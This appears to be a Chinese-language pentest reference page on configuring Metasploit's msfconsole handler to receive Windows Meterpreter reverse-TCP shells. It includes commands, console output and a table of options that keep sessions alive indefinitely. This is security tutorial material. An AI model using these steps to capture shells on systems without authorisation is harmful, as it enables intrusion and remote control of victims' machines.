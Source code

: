 
## Msfconsole

### 创建监听（Create Listener）

在 msf 控制台中，提供了更加便捷，快速建立监听的方式：

```console
msf6 > handler -H <atk_ip> -P 4444 -p windows/x64/meterpreter/reverse_tcp
[*] Payload handler running as background job 1.
[*] Started reverse TCP handler on atk_ip:4444

msf6 > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  1   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://atk_ip:4444

msf6 >
```

一般情况设置监听：

```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost <atk_ip>
lhost => <atk_ip>
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > set SessionExpirationTimeout 0
SessionExpirationTimeout => 0
msf6 exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 0.0.0.0:4444
msf6 exploit(multi/handler) >
```

| 配置命令                          | 简述                                                                                  |
| --------------------------------- | ------------------------------------------------------------------------------------- |
| exploit -j -z                     | 在后台持续监听。-j 创建后台任务，-z 接收到 shell 后不自动进入到会话中。               |
| setg                              | 设置全局变量，这样切换模块就不需要再进行设置了                                        |
| unsetg                            | 命令取消设置全局变量                                                                  |
| show info                         | 查看当前模块的基本信息                                                                |
| show advanced                     | 查看当前模块和 payload 的高级配置信息                                                 |
| set ExitOnSession false           | 在接收到 seesion 后继续监听端口，保持侦听。防止假死与假 session（刚连接就断开）       |
| set SessionCommunicationTimeout 0 | 默认一个会话在 5 分钟（300 秒）没有任何活动，它会被杀掉，为防止此情况可将此项修改为 0 |
| set SessionExpirationTimeout 0    | 默认一个星期（604800 秒）会话将被强制关闭，修改为 0 后将不会自动关闭。                |
| set AutoRunScript                 | 在会话创建时自动运行的脚本                                                            |
